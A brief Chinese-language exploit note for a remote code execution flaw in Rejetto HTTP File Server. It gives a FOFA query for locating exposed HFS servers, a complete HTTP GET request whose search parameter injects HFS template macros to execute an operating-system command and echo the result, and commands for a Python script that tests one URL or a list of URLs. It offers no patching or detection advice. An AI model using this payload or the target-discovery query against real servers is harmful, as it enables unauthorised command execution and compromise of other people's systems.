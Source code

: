 # Rejetto HTTP远程代码执行

### 1.漏洞描述

Rejetto HTTP File Server 存在远程代码执行漏洞，攻击者可通过构造特殊请求执行系统命令。

### 2.fofa语法

```plain
app="HFS"
```

### 3.漏洞复现

```plain
GET /?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}V{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.71 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719838259699-6c359c5f-8081-4795-ab35-dfeeb3376a25.png)

### 4.py脚本

```plain
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```
